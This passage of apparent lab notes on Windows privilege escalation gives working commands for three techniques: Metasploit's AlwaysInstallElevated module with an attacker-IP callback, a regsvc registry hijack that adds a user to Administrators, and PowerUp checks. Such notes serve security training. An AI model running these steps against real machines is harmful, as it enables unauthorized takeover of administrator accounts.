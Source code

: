 ```shell

net local administrators
#our user is added to Administrators group

# Or from the meterpreter of low priviliged user, background the session. And use
use exploit/windows/local/always_install_elevated 
set session <SESSION ID>
set LHOST <ATTACKER IP>
run

# You will be given a meterpreter session of NT Authority System
```

```shell
#regsvc
#in victim powershell
powershell -ep bypass
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
#output shows that user belongs to 'Interactive' and has 'full control' over registry key see picture


#copy the required source file, windows_service.c to attacker machine

#in attacker machine
vim windows_service.c
#replace system() function code to include -
#cmd.exe /k net localgroup administrators user /add

#compile the C code
x86_64-w64-mingw32-gcc windows_service.c -o x.exe

#copy x.exe to victim machine in C:\Temp
#in victim command prompt
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Temp\x.exe /f
#add registry entry with image path value as x.exe

sc start regsvc
#start modified service

net localgroup administrators
#our user is added to administrators group
```
![image](https://github.com/user-attachments/assets/eb03d49d-ea00-4232-98a0-38460c2791fc)

## Executable Files
From powerup tool
```shell
powershell -ep bypass
. ./powerUp.ps1
Invoke-AllChecks
```
![image](https://github.com/user-attachments/assets/b5a4eb4c-615b-40b3-89ac-b093448af27d)
